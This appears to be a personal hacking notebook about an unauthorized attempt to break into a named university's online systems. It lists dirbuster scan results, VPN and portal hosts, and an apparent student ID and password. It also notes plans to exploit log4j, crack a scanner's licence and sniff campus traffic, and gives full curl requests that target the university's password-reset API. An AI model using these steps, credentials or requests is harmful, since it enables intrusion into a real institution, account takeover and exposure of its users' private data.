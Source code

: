 ```yaml
---
{"categories": &id001 ["freelancer", "hack"], "category": "hacking", "date": "2021-12-22 05:45:58", "description": "The article discusses hacking attempts on lixin.edu.cn and the use of tools such as dirbuster and Kali Linux to find vulnerabilities. It also includes a HTTP request command for changing passwords on the server.", "tags": *id001, "title": "The Hack (Get password and tests)"}

---
```


------

dirbuster has found something over  "http://oa.lixin.edu.cn//test/"

+ http://oa.lixin.edu.cn//admin (CODE:301|SIZE:237)

+ http://oa.lixin.edu.cn//css (CODE:301|SIZE:235)

+ http://oa.lixin.edu.cn//help (CODE:301|SIZE:236)

+ http://oa.lixin.edu.cn//images (CODE:301|SIZE:238)

+ http://oa.lixin.edu.cn//js (CODE:301|SIZE:234)

+ http://oa.lixin.edu.cn//setup (CODE:301|SIZE:237)

+ http://oa.lixin.edu.cn//template (CODE:301|SIZE:240)

+ http://oa.lixin.edu.cn//test (CODE:301|SIZE:236)

+ http://oa.lixin.edu.cn///admin (CODE:301|SIZE:237)

+ http://oa.lixin.edu.cn///help (CODE:301|SIZE:236)

+ http://oa.lixin.edu.cn///images (CODE:301|SIZE:238)

+ http://oa.lixin.edu.cn///script (CODE:301|SIZE:238)

suspicious:

http://oa.lixin.edu.cn/oanew/sys/taskcenterapp/*default/index.do

portal (even in the internet):

http://202.121.255.3:8080/portal

Scan this website with kali linux.

The Intranet Gateway For Campus: (maybe less hops?)

https://app.topsec.com.cn

mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true

pdvpn.lixin.edu.cn

pdvpn2.lixin.edu.cn

vpn.lixin.edu.cn

vpn2.lixin.edu.cn

xxb.lixin.edu.cn/jszl/57078.htm

201960630:CHENweiyi0519

https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin

https://security-center.paas.lixin.edu.cn/find-pwd

20039370

missing puzzle for changing password:

trial user:

201960249

found russia hacker's kali tool site: https://en.kali.tools/all/

apparently we have some issue with log4j and this could be our way in, the damn server.

sniffing the whole damn campus is only possible if we know how to get into the same subnet of all people.

have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.

to get all site links with proper titles, we need to use playwright.

nessus scanner has that 16 ips limitation, we need to crack/patch it first.

to master kali linux, recommend to scrape kali_tools (https://tools.kali.org/) and tutorialspoint (https://www.tutorialspoint.com/kali_linux/index.htm) for kali, or just simply using manpage.

cisco router is untouched till now. need we to scan it?

(intermediate ip addresses)

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \

-H 'Connection: keep-alive' \

-H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \

-H 'Accept: application/json, text/plain, */*' \

-H 'Content-Type: application/json;charset=UTF-8' \

-H 'sec-ch-ua-mobile: ?0' \

-H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \

-H 'sec-ch-ua-platform: "Chrome OS"' \

-H 'Origin: https://security-center.paas.lixin.edu.cn' \

-H 'Sec-Fetch-Site: same-site' \

-H 'Sec-Fetch-Mode: cors' \

-H 'Sec-Fetch-Dest: empty' \

-H 'Referer: https://security-center.paas.lixin.edu.cn/' \

-H 'Accept-Language: en-US,en;q=0.9' \

--data-raw '{"password":"abcdefABC","userId":""}' \

--compressed

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \

-H 'Connection: keep-alive' \

-H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \

-H 'Accept: application/json, text/plain, */*' \

-H 'Content-Type: application/json;charset=UTF-8' \

-H 'sec-ch-ua-mobile: ?0' \

-H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \

-H 'sec-ch-ua-platform: "Chrome OS"' \

-H 'Origin: https://security-center.paas.lixin.edu.cn' \

-H 'Sec-Fetch-Site: same-site' \

-H 'Sec-Fetch-Mode: cors' \

-H 'Sec-Fetch-Dest: empty' \

-H 'Referer: https://security-center.paas.lixin.edu.cn/' \

-H 'Accept-Language: en-US,en;q=0.9' \

--data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \

--compressed

